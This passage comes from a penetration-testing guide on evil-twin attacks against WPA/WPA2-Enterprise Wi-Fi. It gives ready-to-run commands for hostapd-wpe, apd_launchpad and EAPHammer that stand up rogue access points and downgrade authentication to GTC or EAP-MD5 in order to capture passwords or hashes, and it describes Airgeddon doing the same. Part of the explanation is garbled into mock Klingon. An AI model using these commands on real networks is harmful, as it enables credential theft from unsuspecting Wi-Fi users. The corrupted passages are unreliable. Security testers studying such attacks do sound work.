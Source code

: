 To understand this attacks I would recommend to read before the brief [WPA Enterprise explanation](./#wpa-enterprise-mgt).

**Using hostapd-wpe**

`hostapd-wpe` needs a **configuration** file to work. To **automate** the generation if these configurations you could use [https://github.com/WJDigby/apd\_launchpad](https://github.com/WJDigby/apd\_launchpad) (download the python file inside _/etc/hostapd-wpe/_)
```bash
./apd_launchpad.py -t victim -s PrivateSSID -i wlan0 -cn company.com
hostapd-wpe ./victim/victim.conf -s
```
In the configuration file you can select a lot of different things like ssid, channel, user files, cret/key, dh parameters, wpa version and auth...

[**Using hostapd-wpe with EAP-TLS to allow any certificate to login.**](evil-twin-eap-tls.md)

**Using EAPHammer**
```bash
# Generate Certificates
./eaphammer --cert-wizard

# Launch Attack
./eaphammer -i wlan0 --channel 4 --auth wpa-eap --essid CorpWifi --creds
```
By default, EAPHammer purposes this authentication methods (notice GTC as the first one to try to obtain plaintext passwords and then the use of more robust auth methods):

---

**tlhIngan Hol Translation:**

ghItlhvam, EAPHammer vItlhutlh (GTC vItlhutlh, 'ej Hoch auth methods vItlhutlh) authentication methods vItlhutlh:

---
```
GTC,MSCHAPV2,TTLS-MSCHAPV2,TTLS,TTLS-CHAP,TTLS-PAP,TTLS-MSCHAP,MD5
```
**DaH jImej** yIlo' **long connection times** vItlhutlh. 'ach, **server** authentication methods **weakest to strongest** **ghItlh** 'e' vItlhutlh.
```
--negotiate weakest
```
**Using Airgeddon**

`Airgeddon` can use previously generated certificated to offer EAP authentication to WPA/WPA2-Enterprise networks. The fake network will downgrade the connection protocol to EAP-MD5 so it will be able to **capture the user and the MD5 of the password**. Later, the attacker can try to crack the password.\
`Airggedon` offers you the possibility of a **continuous Evil Twin attack (noisy)** or **only create the Evil Attack until someone connects (smooth).**

![](<../../.gitbook/assets/image (129).png>)
